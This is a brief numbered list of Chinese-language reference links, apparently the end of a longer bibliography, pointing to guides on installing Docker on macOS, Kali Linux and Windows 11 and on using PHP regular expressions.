15. [Docker-从入门到实践](https://yeasy.gitbook.io/docker_practice/image/build)
16. [MacOS Docker 安装](https://www.runoob.com/docker/macos-docker-install.html)
17. [kali Docker安装](https://blog.csdn.net/weixin_46318141/article/details/121168812)
18. [window11 docker安装](https://blog.csdn.net/zou_hailin226/article/details/121278799?spm=1001.2101.3001.6650.2&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-2-121278799-blog-125292275.pc_relevant_default&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7Edefault-2-121278799-blog-125292275.pc_relevant_default&utm_relevant_index=3)
19. [PHP 正则表达式](https://blog.csdn.net/weixin_46601374/article/details/122310702)
20. [PHP 正则表达式的使用方法](https://www.php.cn/php-weizijiaocheng-406942.html)

